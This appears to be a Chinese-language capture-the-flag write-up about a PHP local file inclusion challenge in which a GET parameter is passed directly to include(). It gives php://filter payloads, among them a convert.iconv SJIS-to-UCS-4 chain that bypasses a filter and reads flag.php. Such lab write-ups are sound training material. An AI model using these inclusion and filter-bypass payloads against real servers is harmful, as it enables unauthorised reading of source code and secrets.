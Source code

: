 ![输入图片说明](image/4adb89382ed84b2ead2e6482b4ac00e9.png)

解析

```csharp
<?php
highlight_file(__FILE__);        // 高亮显示当前PHP文件源代码
include("./check.php");          // 包含检查文件（可能包含安全过滤逻辑）

if(isset($_GET['filename'])) {   // 检查是否传入filename参数
    $filename = $_GET['filename'];  // 获取用户传入的文件名
    include($filename);           // 直接包含该文件
}
?>
```

?filename=php://filter/convert.base64-encode/resource=./check.php，并没有得到flag

![输入图片说明](image/d134a1b776ab41ff9f26469a80b4c381.png)

尝试绕过
?filename=php://filter//convert.iconv.SJIS*.UCS-4*/resource=index.php
php://filter是PHP的一种输入/输出流过滤器，用于对资源进行转换操作。
convert.iconv.SJIS*.UCS - 4*表示使用iconv转换，将编码从SJIS相关编码转换为UCS - 4相关编码。
resource=index.php表示要处理的资源是“index.php”文件
将恶意代码用 SJIS 编码后，再通过 convert.iconv 转换为 UCS-4 编码
*通配符可能绕过了过滤规则中对特定编码格式的检查
URL 中的双斜杠 // 可能被某些解析器处理为单斜杠，绕过路径检查

?filename=php://filter//convert.iconv.SJIS*.UCS-4*/resource=./check.php但是并没有得到flag

![输入图片说明](image/99dbbea505b54ad78fe269d24b225540.png)

?filename=php://filter//convert.iconv.SJIS*.UCS-4*/resource=./flag.php得到flag

![输入图片说明](image/4fea8e929d9e4f14959069917aeeb105.png)

